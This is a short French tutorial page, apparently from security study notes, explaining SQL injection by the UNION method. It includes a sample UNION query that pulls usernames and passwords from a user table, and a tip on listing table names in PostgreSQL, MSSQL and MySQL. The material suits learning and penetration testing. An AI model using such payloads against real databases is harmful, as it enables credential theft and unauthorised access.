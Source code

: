 # Injection de commandes SQL

## 1. Par méthode UNION

#### Les objectifs de cette techniques sont :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

```sql
select title, link from post_table
where id < 10
union
select username, password
from user_table; --;
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



